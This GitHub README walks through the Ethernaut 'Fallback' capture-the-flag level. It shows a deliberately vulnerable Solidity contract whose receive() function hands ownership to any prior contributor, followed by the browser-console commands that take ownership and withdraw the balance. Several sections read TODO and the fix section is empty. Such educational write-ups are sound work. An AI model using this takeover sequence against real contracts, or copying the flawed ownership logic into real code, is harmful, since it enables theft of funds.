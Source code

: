 # Fallback challenge - Level 1 🚧 Update In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- the require statement inside the fallback function receive() is making it an easy target to exploit,  

```Solidity

receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

## 🆘 The victim contract in detail

```yml
The victim contract imports OpenZeppelin's safeMath here:
```
- TODO

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
```

- TODO

```Solidity
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
```

- TODO

```Solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```


## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```
- TODO

```Solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

- TODO

```JavaScript
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/

await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();

```

## 💥 The attack in detail

```yml
The attack:
```

- the [top level](https://developer.chrome.com/blog/new-in-devtools-62/#await) JavaScript awaits the player will use in the attack 💥,

```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
- the contribution to satisfy this require statement,

```Solidity
&& contributions[msg.sender] > 0

```

```JavaScript
await contract.contribute({value: 1});
```

- the value sent in the transaction to satisfy this require statement,

```Solidity
msg.value > 0 
```

```JavaScript
await contract.sendTransaction({value: 1 });
```

- checking to see if it worked,

```JavaScript
await contract.owner();
```

- 💸 withdrawing everything!

```Solidity

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

```JavaScript
await contract.withdraw();
```


## 🩺 How can we fix this vulnerablity in the victim contract?

- I would create more robust require statements, inside a seperate named function for receiving tokens how I prefer,

```Solidity

```











  
